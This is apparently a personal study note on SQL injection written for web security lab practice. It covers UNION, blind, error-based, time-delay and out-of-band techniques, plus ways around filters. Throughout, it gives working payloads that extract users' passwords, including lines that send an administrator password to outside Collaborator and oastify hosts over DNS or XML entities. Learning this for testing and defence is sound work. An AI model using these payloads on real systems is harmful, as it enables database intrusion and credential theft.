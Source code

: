 ### SQL Injection

Cheat sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet

**What is SQL injection**
- Inserting into SQL queries (commonly SELECT, but sometimes others like UPDATE or INSERT)
- `https://insecure-website.com/products?category=Gifts` -> `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
  - Often easiest to figure out hte query by trying to fill out the rest of the query ourselves (so something like `Gifts'--` to get the same data)

**Places to look for SQL injection**
- Can be anywhere, really
- Look for places that would commonly interact with a database
  - Authentication, queries, tracking cookies, etc.
- With BlindSQLi, it can sometimes be pretty hard to tell (missing content can be indicative of simply incorrect values, not SQLi), so I suppose just pass every request through sqlmap
  - Use `*` to indicate where to inject
  - `sqlmap -u {endpoint} --cookie "{vulnerable_cookie}=*" --dbs`

**UNION attacks**
- `UNION` allows executing an additional `SELECT` query and appending results to the original
  - `SELECT a, b FROM table1 UNION SELECT c, d FROM table2` will return values from a and b in table1 and values c and d from table2
- UNION queries require:
  - Individual queries returning same number of columns
  - Data types in column must be compatible
- When commenting, make sure to try `--`, `#`, `-- //`, `# //`, etc.
- Determining column requirements
  - Can use `' ORDER BY 1--`, `' ORDER BY 2--`, and so on to see how many columns exist
  - Can also use `' UNION SELECT NULL, NULL, NULL, {etc}--` for the same purpose - `NULL` is convertible to every common data type
- Finding useful data types
  - String data is often useful, so finding it is important
  - `' UNION SELECT 'a', NULL, NULL, {etc}--` to find which columns allow strings
  - Can use these columns to retrieve interesting data, like usernames/passwords
- If we want to select multiple instances or 2nd/3rd instances from a database, use `LIMIT` to limit the number of results and `OFFSET` to offset which to select from the database
  - `' UNION SELECT username,password FROM users LIMIT 999 OFFSET 0--` would give enough space (999) and set the offset at 0, appending the entire table onto the result
  - Alternatively, we can concatenate the values together into a single column
    - Would look something like this for MySQL: `' UNION SELECT username || password FROM users--`

**Examining the Database**
- We want to find the type, version, table, and columns of the database
- Type/Version: 
  - Microsoft/MySQL: `SELECT @@version`
  - Oracle: `SELECT * FROM v$version`
    - - Every `SELECT` query in Oracle requires the `FROM` keyword - `DUAL` can be used as an always-valid table
      - `' UNION SELECT NULL FROM DUAL--`
    - Allows `--` or `#` for comments
  - PostgreSQL: `SELECT version()`
- Database contents:
  - `information_schema.tables` contains table information
    - Columns are usually like `TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE`
  - To see columns in tables, a query like `SELECT * FROM information_schema.columns WHERE table_name = 'Users'` does the trick
    - Tables have columns like the following: `TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE`

**Verbose Error Message SQL Injection**
- `CAST` is a useful tool for dumping column data in error messages
  - `CAST((SELECT example_column FROM example_table) AS int)` will yield something like `Invalid syntax: "{column_data} is not an integer"`
  - Example: `' AND 1=CAST((SELECT username FROM users LIMIT 1) as int)--` (check if 1 = integer of string data)

**Blind SQL Injection**
- Blind SQLi is when the neither database query NOR verbose error messages are present in the HTTP response 
- Can identify blind injection by getting normal results to appear with A SQL query `' AND '1'='1`
  - Not commented out since we want to confirm the query was injected and returned the same results 
  - Can sub `' AND '1'='2` to procure an error
- Error-based blind SQLi:
  - Do error-based character comparisons to figure out characters
  - Figuring out tables:
    - `' AND (SELECT 'a' FROM information_schema.columns WHERE table_name='users' LIMIT 1)='a` to see if there is a user table (a = a if users exists)
  - Figuring out table columns:
    - `' AND (SELECT 'a' FROM information_schema.columns WHERE table_name='users' AND column_name='username' LIMIT 1)='a` to see if there is a "username" column
  - Figuring out column content:
    - `' AND (SELECT 'a' FROM users WHERE username='administrator')='a` to see if there is an "administrator" user 
  - Figuring out conditional table content:
    - `' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a` to see if the first letter of the administrator's password is "a"
      - Change `(password,1,1)` to `(password,2,1)` to check the second character
      - Alternate: `' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
        - Might not work if strings can't be compared, but can allow a binary search
      - Can be `SUBSTR` with some databases - refer to cheat sheet
- Time delay SQLi
  - Sometimes, the app will handle error messages gracefully, meaning no difference in application response
  - Check for true/false boolean (depending on the database; cheat sheet has copy-paste):
    - `'; IF (1=2) WAITFOR DELAY '0:0:10'--`
    - `'; IF (1=1) WAITFOR DELAY '0:0:10'--`
  - Based on the condition, retrieve data one character at a time (again depending on database):
    - `'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

**Error-based SQL Injection**
- Similar to response-based SQLi, where we can infer the result of the query based on an application error
- We'll often need to check whether or not we're injecting into a true or false boolean condition:
  - These are heavily database-dependent; be sure to use cheat sheet
  - `' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a` will evaluate to true
  - `' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a` will evaluate to false
- Based on the condition needed, we can use the following to exfiltrate characters
  - `' AND (SELECT CASE WHEN (username = 'administrator' AND SUBSTRING(password, 1, 1) = 'a') THEN 1/0 ELSE 'a' END FROM users)='a`
    - Also heavily dependent on database; for Oracle it would be something like `' AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username='administrator'),1,1)='0') THEN 'a' ELSE TO_CHAR(1/0) END FROM dual)='a`
    - Can substitute with `> 'm'` if accepted by the database
  - Intruder can do this quite well with a cluster-bomb attack (iterate all payload combinations for all positions)

**OAST Techniques**
- Applications will sometimes handle the SQL query asynchronously
- Thus, we need to use some external service that can accept connections, like DNS, to confirm query execution 
  - Burp collaborator works well for this
    - Create a payload (by copying it to clipboard), then poll after sending the request
- Payload would look something like a lookup
  - `'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`
- Payloads from cheat sheet require decent modification. Remember to try with `UNION`, `;`, etc.
  - Encode ` ` as `+`, `?` marks as `%3f`, `=` as `%3d`, `%` as `%25`, `:` as `%3a`, and `;` as `%3b`
- After confirming SQL injection, exfiltration would look something like:
  - `'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`
  - An encoded would look something like:
    - `'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username='administrator')||'.wee8xnrdltcmbp86tyzupzx5lwrnff34.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--`
  - Again, cheat sheet has examples

**Bypassing Defenses**
- If single quotes are totally blacklisted, a `\` as the first parameter can actually unlock an apostrophe to use as part of the second payload
- Backslashes can also be used for bypassing single quotes being replaced with double quotes
- For WAFs, if we can encode the data (HTML, XML), doing so can bypass basic WAFs

